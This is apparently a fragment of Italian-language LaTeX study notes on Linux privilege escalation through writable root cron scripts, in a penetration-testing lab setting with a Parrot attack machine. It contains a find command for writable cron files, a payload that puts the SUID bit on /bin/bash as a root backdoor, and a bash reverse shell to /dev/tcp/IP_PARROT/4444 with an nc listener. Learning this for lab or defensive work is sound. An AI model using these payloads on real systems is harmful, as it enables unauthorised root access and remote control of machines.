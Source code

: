 \documentclass[12pt,a4paper]{report}
\begin{document}
	\begin{itemize}
		\item \textbf{Il file principale:} \texttt{/etc/crontab} (contiene le pianificazioni globali di sistema).
		\item \textbf{Le directory cron temporali:} \texttt{/etc/cron.hourly/}, \texttt{/etc/cron.daily/}, \texttt{/etc/cron.weekly/}, \texttt{/etc/cron.monthly/}. Queste sono \textbf{cartelle separate} dal file crontab principale; i file depositati al loro interno vengono eseguiti rispettivamente ogni ora, giorno, settimana o mese.
		\item \textbf{La cartella delle configurazioni modulari:} \texttt{/etc/cron.d/}, usata da pacchetti software terzi per installare le proprie pianificazioni.
	\end{itemize}
	
	\textbf{Comando operativo mirato:}
	Per verificare rapidamente se ci sono script di cron modificabili dal nostro utente senza scansionare l'intero sistema:
	\begin{lstlisting}[language=bash]
		find /etc/cron* /etc/systemd/system/ -writable 2>/dev/null
	\end{lstlisting}
	
	\subsection{L'Exploit: Iniezione di Codice}
	Se individuiamo uno script (es. \texttt{/opt/backup.sh}) richiamato da una regola in \texttt{/etc/crontab} di root, e tale script è scrivibile da noi, possiamo inserire un payload sfruttando due diverse strategie:
	
	\textbf{Metodo 1: Creazione di una Backdoor SUID (Permanente)}
	\begin{lstlisting}[language=bash]
		echo 'chmod u+s /bin/bash' >> /opt/backup.sh
	\end{lstlisting}
	Al prossimo ciclo di cron, root eseguirà lo script assegnando il bit SUID alla shell di sistema. Una volta fatto, basterà lanciare \texttt{/bin/bash -p} in qualsiasi momento da utente standard per diventare root.
	
	\textbf{Metodo 2: Iniezione di una Reverse Shell}
	\begin{lstlisting}[language=bash]
		echo 'bash -i >& /dev/tcp/IP_PARROT/4444 0>&1' >> /opt/backup.sh
	\end{lstlisting}
	Quando lo script viene eseguito da root, avvia una sessione bash interattiva reindirizzando l'input/output verso l'indirizzo IP della macchina d'attacco Parrot sulla porta \texttt{4444} (precedentemente messa in ascolto con \texttt{nc -lvnp 4444}).
	
\end{document}
